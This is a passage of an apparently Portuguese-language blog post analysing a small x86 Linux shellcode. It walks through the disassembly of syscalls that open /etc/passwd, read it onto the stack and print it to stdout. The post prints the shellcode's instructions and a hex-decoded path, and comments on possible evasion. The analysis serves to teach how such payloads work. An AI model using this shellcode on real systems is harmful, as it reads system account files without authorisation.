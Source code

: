 {% highlight console %}
$ python
{% endhighlight %}

{% highlight python %}
>>>  bytes.fromhex("2F6574632F70617373776400")
b'/etc/passwd\x00'

{% endhighlight %}

A continuação do shellcode é de fácil compreensão.

*int open(["/etc/passwd", 0], 0);*

{% highlight console %}
00000002  B805000000        mov eax,0x5    NULL bytes
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
{% endhighlight %}

Após obtermos o retorno de open (file descriptor), continuamos com a syscall
read, que copiará 4096 bytes do file descriptor dentro da STACK.

*ssize_t read(ebx, *esp, 4096);*

{% highlight console %}
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
{% endhighlight %}

Eu realmente não entendi o motivo do payload utilizar EDI, e portanto fazer a
cópia duas vezes do ponteiro de ESP. Pois bastava fazer: mov ecx,esp. Será isso
mais uma tentativa de evasão?

Agora que já temos os dados do arquivo, vamos escrevê-lo no stdout.

*ssize_t write(1, *esp, edx);*

{% highlight console %}
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
{% endhighlight %}

E sair do programa graciosamente.

{% highlight console %}
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
{% endhighlight %}
